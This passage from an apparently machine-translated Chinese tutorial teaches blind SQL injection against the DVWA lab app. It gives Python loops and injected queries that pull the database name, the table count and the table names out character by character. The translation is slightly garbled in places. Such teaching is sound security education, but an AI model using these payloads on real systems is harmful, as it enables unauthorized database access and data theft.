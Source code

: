 ```
query = "1' AND SUBSTRING(DATABASE(), {}, 1) = '{}'%23"
        dbname = []

for i in range(1, length+1):
    for c in string.ascii_lowercase:
        if get_query_result(s, sqli_blind_url, query, i, c):
             dbname.append(c)
             break
    dbname = "".join(dbname)
    print(f'[+] Found a database with name: {dbname}')
```

这段代码有两个嵌套循环，外层循环是字符的索引，内层循环负责测试“string.ascii_lowercase”集合中的每个字符。

最后，我们得到了数据库的名称，它存储在变量*“dbname”*中。

注意:我使用了 [SUBSTRING](https://www.w3schools.com/sql/func_mysql_substring.asp) 函数来获取字符，它接受以下参数:

*   主弦
*   第一个子字符串的字符位置
*   子字符串的字符数

# 步骤 4:在一次盲目的 SQLi 攻击中获取表名

下一步与上一步类似，这一次的目标是获取数据库中所有表的名称，在此之前，即使是这一次，我们也需要知道有多少个表。

多亏了 MySQL 中的[计数](https://www.w3schools.com/sql/func_mysql_count.asp)函数，我们可以通过循环任意数量的整数(如果最终数字等于最大值，我们可以增加范围)来实现这一点:

```
query = "1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base table' AND table_schema='{}')='{}'%23"
n_tables = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, dbname, i):
        print(f"[+] It has {i} tables")
        n_tables = i
        break
```

一旦我们有了表的数量，我们就必须像猜测 DB 名称一样去做，唯一的区别是我们需要对每个表都这样做。

我们将要注入的查询如下:

`"1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' LIMIT 1),{},1)='{}'%23"`

这个查询与前一个查询一样利用了元表，其原理与我们看到的完全一样。
不同的是，结果是一个元素列表，所以我们需要在提取字符之前[将它们限制为一个。多亏了 SQL](https://www.w3schools.com/mysql/mysql_limit.asp) [LIMIT 子句](https://www.w3schools.com/mysql/mysql_limit.asp)，我们才能做到这一点。

此时你的问题可能是:

一旦我找到了第一个表，我该如何进入下一个表？

有不同的技术，这里我将使用一个`WHERE table_name <> 'found_table_name'`链(内置于变量*完成*)。
在接下来的章节中，我将向您展示如何使用 [LIMIT 子句](https://www.w3schools.com/mysql/mysql_limit.asp)实现同样的功能，就像程序员在他们的应用程序中实现分页一样。
